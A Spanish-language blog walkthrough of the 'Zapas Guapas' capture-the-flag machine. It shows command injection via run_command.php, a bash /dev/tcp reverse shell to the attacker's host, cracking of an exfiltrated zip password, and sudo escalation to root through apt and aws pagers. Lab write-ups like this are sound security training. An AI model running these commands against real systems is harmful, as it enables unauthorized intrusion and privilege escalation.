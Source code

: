 ```yaml
---
layout: post
title: "Zapas Guapas"
date: 2024-06-07 15:20:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Zapas Guapas </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/zapas-guapas/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Zapasguapas/host.png){:.margin}

**1\.** Identifico el host en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Zapasguapas/arp.png){:.margin}

**2\.** Escaneando puertos y servicios activos del host.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.6`

![img](/notas/public/img/thehackerlabs/Zapasguapas/nmap.png){:.margin}

**3\.** Veo una pagina web pero sin mayor importancia.

`http://192.168.1.6`

![img](/notas/public/img/thehackerlabs/Zapasguapas/80.png){:.margin}

**4\.** Fuzzeo recursos en la web.

`gobuster dir -u http//192.168.1.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,js -q`

![img](/notas/public/img/thehackerlabs/Zapasguapas/gobuster.png){:.margin}

**5\.** Lo interesante esta en el login, revisando la fuente encuentro un fichero php que ejecuta comandos.

`http://192.168.1.6/login.html`

![img](/notas/public/img/thehackerlabs/Zapasguapas/login.png){:.margin}
![img](/notas/public/img/thehackerlabs/Zapasguapas/logincode.png){:.margin}

**6\.** Me dirijo al fichero con los parametros requeridos y pruebo con un comando.

`http://192.168.1.6/run_command.php?username=&password=id`

![img](/notas/public/img/thehackerlabs/Zapasguapas/runcommand.png){:.margin}

**7\.** Obteniendo una reverse shell.

_7.1- Me pongo en escucha_

`sudo nc -nvlp 443`

![img](/notas/public/img/thehackerlabs/Zapasguapas/nc.png){:.margin}

_7.2- Ingreso el comando para enviar la shell_

`http://192.168.1.6/run_command.php?username=&password=bash -c "bash -i>%26 /dev/tcp/192.168.1.13/443 0>%261"`

![img](/notas/public/img/thehackerlabs/Zapasguapas/bashi.png){:.margin}

_7.3- Recibo la conexion por nc_

![img](/notas/public/img/thehackerlabs/Zapasguapas/ncok.png){:.margin}

**8\.** Encuentro ciertas pistas, y ademas un zip que contiene un password.txt pero esta protegido con una contraseña para descomprimir.

`cat /etc/passwd | grep bash`

`ls /home/test/ /home/proadidas/ /home/pronike/`

`cat /home/proadidas/user.txt /home/pronike/nota.txt`

`ls /opt`

`unzip -l /opt/importante.zip`

`unzip /opt/importante.zip`

![img](/notas/public/img/thehackerlabs/Zapasguapas/look.png){:.margin}

**9\.** Traendo el comprimido a mi maquina local y crackeando la pass.

_9.1- Lo paso a base64_

`base64 -w0 /opt/importante.zip; echo`

![img](/notas/public/img/thehackerlabs/Zapasguapas/base64encode.png){:.margin}

_9.2- Recupero el comprimido en local_

`echo "hash" | base64 -d -w0 > file.zip`

![img](/notas/public/img/thehackerlabs/Zapasguapas/base64decode.png){:.margin}

_9.3- Crackeando la contraseña y descomprimiendo_

`zip2john file.zip > hash`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

`unzip file.zip`

![img](/notas/public/img/thehackerlabs/Zapasguapas/john.png){:.margin}

**10\.** Accedo por ssh con las credenciales indicadas en el archivo.

`cat password.txt`

`ssh pronike@192.168.1.6`

![img](/notas/public/img/thehackerlabs/Zapasguapas/sshpronike.png){:.margin}

**11\.** Veo la nota anterior, y ademas tengo un binario que puedo ejecutar justamente como proadidas.

`cat nota.txt`

`sudo -l`

![img](/notas/public/img/thehackerlabs/Zapasguapas/sudol.png){:.margin}

**12\.** En [gtfobins](https://gtfobins.github.io/gtfobins/apt/#sudo) podemos ver como usar el binario, en este caso saltar a proadidas.

_12.1- Esperamos un poco hasta que salte esta parte_

`sudo -u proadidas apt changelog apt`

![img](/notas/public/img/thehackerlabs/Zapasguapas/aptchangelog.png){:.margin}

_12.2- Me lanzo una bash y ya soy usuario proadidas_

`!/bin/bash`

![img](/notas/public/img/thehackerlabs/Zapasguapas/binbash.png)
![img](/notas/public/img/thehackerlabs/Zapasguapas/binbashok.png)

**13\.** Escalando privilegios.

_13.1- Hay un binario root, otra ves [gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)  y ejecuto el binario_

`sudo -l`

`sudo -u root aws help`

![img](/notas/public/img/thehackerlabs/Zapasguapas/sudolproadidas.png){:.margin}

_13.2- Al final ingreso el comando para lanzarme una bash_

`!/bin/bash`

![img](/notas/public/img/thehackerlabs/Zapasguapas/binbashroot.png){:.margin}

_\-> Ya somos root_

![img](/notas/public/img/thehackerlabs/Zapasguapas/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>